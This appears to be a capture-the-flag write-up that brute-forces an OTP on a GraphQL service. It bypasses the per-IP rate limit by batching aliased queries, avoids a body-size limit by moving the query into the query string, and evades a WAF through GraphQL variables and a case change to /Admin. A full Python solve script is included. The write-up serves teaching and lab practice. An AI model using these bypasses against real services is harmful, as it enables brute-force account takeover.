 + Guessing a randomly generated number (OTP) between 000 and 998 (OTP check), repeating it for 40 attempts, accessing /admin, we can get the flag
+ This OTP check is limited per client IP address, allowing only 5 requests to be sent within a 30-minute period for each OTP check.
+ once the OTP check is successfully completed, the rate limit is reset, and the same rate limit applies for the next OTP check
+ The rate limit can be bypassed by executing multiple GraphQL queries in a single HTTP request
+  GraphQL aliases query example:
```
query {
  a: otp(u: "admin", i: 0, otp: "001")
  b: otp(u: "admin", i: 0, otp: "002")
}
```
+ The length of the request body is restricted, allowing for a maximum of 128 bytes.
+  The application uses express-graphql v0.12.0 as GraphQL server. According to its documentation, GraphQL query can be used not only in the request body but also in the HTTP query string. Therefore, by specifying the GraphQL query in query string instead of request body, it is possible to bypass the limit.
+ Since only the username admin is supported, so we need to specify u:"admin" as an argument in the GraphQL query. However, due to the restriction by the WAF string admin implemented in source/waf.js, this will return a response of "Wrong !!!" without the RateLimit header.
+ GraphQL allows the use of variables. Fortunately, with express-graphql, we can define the GraphQL variables in request body and define the GraphQL query in query string. Therefore, to bypass WAF, we can execute the following HTTP request
+ Finally, to get the flag, we need to access /admin instead of the /graphql GraphQL endpoint, and this endpoint is also affected by the WAF. However, we can bypass it by /Admin.
+ Solve script:
```py
import string
import requests
import itertools

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}

# BASE_URL = "http://localhost:7654"
BASE_URL = "http://34.84.220.22:7654"


def generate_strings():
    for size in itertools.count(1):
        for s in itertools.product(string.ascii_letters, repeat=size):
            yield "".join(s)


alias_names = [s for s in itertools.islice(generate_strings(), 1000)]
# generate ["a", "b", ... , "aa", "ab", ...]


def main():
    offset = 250
    for i in range(40):
        for n in range(0, 999, offset):

            query = ""
            query += "query myQuery($u:String!){"

            for j, otp in enumerate(range(n, min(n + offset, 999))):
                query += f'{alias_names[j]}:otp(u:$u,i:{i},otp:"{otp:03}")'

            query += "}"

            resp = s.post(
                f"{BASE_URL}/graphql?query={query}",
                json={"variables": {"u": "admin"}},
            )

            if "OK !!!" in resp.text:
                break

    resp = s.get(f"{BASE_URL}/Admin")
    print(resp.text)


if __name__ == "__main__":
    main()

```
